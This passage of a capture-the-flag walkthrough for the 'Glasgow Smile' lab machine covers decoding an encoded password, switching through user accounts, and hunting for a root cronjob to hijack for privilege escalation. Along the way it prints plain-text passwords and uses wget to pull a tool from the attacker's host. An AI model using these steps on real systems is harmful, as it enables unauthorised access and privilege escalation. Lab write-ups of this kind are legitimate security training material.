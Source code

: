 It's rot13 with rotate 1 let's decode it :

![](https://i.imgur.com/tvUS9bG.png)

Now let's decode the base64.

```
$ echo STMzaG9wZTk5bXkwZGVhdGgwMDBtYWtlczQ0bW9yZThjZW50czAwdGhhbjBteTBsaWZlMA== | base64 -d
I33hope99my0death000makes44more8cents00than0my0life0
```

Let's login now as abner.

```
rob@glasgowsmile:/home$ su - abner
Password: 
abner@glasgowsmile:~$ whoami
abner
```

Here i got stuck for a few minutes, then i searched for files that owned by me.

```
abner@glasgowsmile:~$ find / -user abner 2>/dev/null
/var/www/joomla2/administrator/manifests/files/.dear_penguins.zip
```

Let's copy it and we can use the same password to open it.

```
abner@glasgowsmile:~$ cp /var/www/joomla2/administrator/manifests/files/.dear_penguins.zip .
abner@glasgowsmile:~$ unzip .dear_penguins.zip 
Archive:  .dear_penguins.zip
[.dear_penguins.zip] dear_penguins password: I33hope99my0death000makes44more8cents00than0my0life0
  inflating: dear_penguins           
abner@glasgowsmile:~$ cat dear_penguins 
My dear penguins, we stand on a great threshold! It's okay to be scared; many of you won't be coming back. Thanks to Batman, the time has come to punish all of God's children! First, second, third and fourth-born! Why be biased?! Male and female! Hell, the sexes are equal, with their erogenous zones BLOWN SKY-HIGH!!! FORWAAAAAAAAAAAAAARD MARCH!!! THE LIBERATION OF GOTHAM HAS BEGUN!!!!!
scf4W7q4B4caTMRhSFYmktMsn87F35UkmKttM5Bz
abner@glasgowsmile:~$ su - penguin 
Password: 
penguin@glasgowsmile:~$ 
```

Now for final privesc we have to wget `pspy` to detect a cronjob.

```
penguin@glasgowsmile:~$ cd /tmp
penguin@glasgowsmile:/tmp$ wget -q 192.168.1.16/pspy64; chmod +x pspy64
penguin@glasgowsmile:/tmp$ ./pspy64 -p -i 1000
```

We can see this file running as root :

`CMD: UID=0    PID=1375   | /bin/sh -c /home/penguin/SomeoneWhoHidesBehindAMask/.trash_old`

We just have to add our payload in and remove 0.
